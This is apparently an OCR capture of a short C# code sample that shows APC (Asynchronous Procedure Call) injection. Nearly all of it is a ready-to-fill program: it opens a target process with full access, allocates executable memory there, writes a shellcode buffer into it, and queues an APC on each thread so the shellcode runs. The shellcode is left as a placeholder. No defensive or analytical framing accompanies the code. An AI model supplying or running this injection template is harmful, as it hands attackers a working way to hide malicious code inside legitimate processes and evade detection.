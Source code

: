 APC (Asynchronous Procedure Call) injection queues an APC to a thread in the target process. When the thread enters an alertable state, it will execute the APC.

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll")]
    static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern IntPtr OpenThread(uint dwDesiredAccess, bool bInheritHandle, uint dwThreadId);

    [DllImport("kernel32.dll")]
    static extern uint QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);

    const uint PROCESS_ALL_ACCESS = 0x1F0FFF;
    const uint THREAD_SET_CONTEXT = 0x0010;
    const uint MEM_COMMIT = 0x1000;
    const uint MEM_RESERVE = 0x2000;
    const uint PAGE_EXECUTE_READWRITE = 0x40;

    static void Main()
    {
        int targetProcessId = 1234; // Replace with the target process ID
        byte[] shellcode = new byte[] { /* Your shellcode here */ };

        IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, targetProcessId);
        IntPtr allocMemAddress = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

        IntPtr bytesWritten;
        WriteProcessMemory(hProcess, allocMemAddress, shellcode, (uint)shellcode.Length, out bytesWritten);

        Process targetProcess = Process.GetProcessById(targetProcessId);
        foreach (ProcessThread thread in targetProcess.Threads)
        {
            IntPtr hThread = OpenThread(THREAD_SET_CONTEXT, false, (uint)thread.Id);
            QueueUserAPC(allocMemAddress, hThread, IntPtr.Zero);
        }
    }
}

```
